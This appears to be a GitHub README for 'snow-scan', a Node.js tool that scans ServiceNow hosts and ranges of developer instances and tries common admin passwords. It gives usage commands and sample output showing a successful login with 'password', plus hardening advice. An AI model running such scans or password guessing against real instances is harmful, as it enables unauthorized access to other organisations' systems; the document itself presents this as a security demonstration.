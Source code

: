 # snow-scan

This is a simple nodejs script to demonstrate how one could scan servicenow instances and try standard login/password combinations to import malevolent code.

>&#9888; This code is for educational purpose only, to show how easy an attacker could take control of a poorly secured instance.

>&#128161; Conclusion: make sure you use a [good password](https://www.howtogeek.com/195430/how-to-create-a-strong-password-and-remember-it/) for your admin account; even better, disable the OOB admin account and create specific accounts. Only use a token based ID management tool (SAML) when possible.

## Download required modules with:
```
npm install
```

## Usage:
```
scan.js -o [{dev|host}] options

Options:
  --help            Show help                                          [boolean]
  --version         Show version number                                [boolean]
  --operation, -o   dev,host                                          [required]
  --target, -t      if o=host, target should be the fqdn
  --numStart, -s    if o=dev, lower limit of the dev scan range
  --numEnd, -e      if o=dev, higher limit of the dev scan range
  --testAuth, -a    try to authenticate using common passwords
  --getVersion, -v  if authenticated, get version
```

## Examples

get informations on specific instance xxxxx:
```javascript
node scan.js -o host -t xxxxx.service-now.com

Scanning target instance xxxxx.service-now.com, WITHOUT authentication
{
  'xxxxx.service-now.com': {
    name: 'xxxxx.service-now.com',
    address: [ 'xxx.xx.x.xxx' ],
    active: true,
    found: true,
    connected: false,
    password: '',
    version: ''
  }
}
```

scan a range of developper instances from number aaaaa to number bbbbb, and try to login as admin, get version:
```javascript
node scan.js -o dev -s aaaaa -e bbbbb -a -v
Scanning dev instances from aaaaa to bbbbb, WITH authentication

{
  'aaaaa.service-now.com': {
    name: 'aaaaa.service-now.com',
    address: [ 'xxx.xx.x.xxx' ],
    active: true,
    found: true,
    connected: false,
    password: '',
    version: ''
  },
  ...,
  'bbbbb.service-now.com': {
    name: 'bbbbb.service-now.com',
    address: [ 'xxx.xx.x.xxx' ],
    active: true,
    found: true,
    connected: true,
    password: 'password',
    version: 'glide-madrid-12-18-2018__patch4-05-29-2019_06-05-2019_1042.zip'
  }
}
```

